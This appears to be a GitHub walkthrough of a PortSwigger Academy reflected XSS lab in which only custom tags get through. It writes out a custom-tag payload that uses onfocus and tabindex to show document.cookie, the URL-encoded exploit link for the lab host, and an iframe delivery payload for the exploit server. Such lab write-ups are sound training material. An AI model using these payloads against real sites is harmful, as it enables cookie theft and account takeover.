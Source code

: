 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/014e693c-80c3-44d5-ae48-786181134070)

### Solution

We need create a custom tag and automatically alerts document.cookie.

onfocusevent , tabindex and id will work with any costom tag.

will try to create the pay load,

```js
<portswigger tabindex="1"onfocus="alert(document.cookie)"id="a1">
```

<portswigger>: This is a made-up element, not a regular one like <div> or <p>.

tabindex="1": This makes it so when you press the "Tab" key to move around a webpage, this element is the first one to be highlighted.

onfocus="alert(document.cookie)": When you click or tab to this element, it shows a pop-up box.

id="a1": It's like a name for this element so that you can refer to it later in your code.

We will enter this payload in the web application

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/710ddae7-7fa0-4fc1-bbda-09a7e41bf674)

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/b20afef8-3dbf-40c5-aabd-0079858dddba)

For triger the alert we need type the id in the url using #a1.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/db9b7140-dbfa-43d3-8d85-84d62e0b3a28)


the exploit is `https://0a1100ef04046d6780d853e30074009d.web-security-academy.net/?search=%3Cportswigger+tabindex%3D%221%22onfocus%3D%22alert(document.cookie)%22id%3D%22a1%22%3E#a1`

we need to send it inside iframe

Payload will be like

```js
<iframe src="exploit url"></iframe>
```

now we give payload at exploit server

```js
<iframe src=https://0a1100ef04046d6780d853e30074009d.web-security-academy.net/?search=%3Cportswigger+tabindex%3D%221%22onfocus%3D%22alert(document.cookie)%22id%3D%22a1%22%3E#a1></iframe>
```

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/400b7ede-db4f-44b3-85a9-66434200a890)

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/403bbf3d-dc70-40c8-99d6-393357a314bb)

now we send the exploit
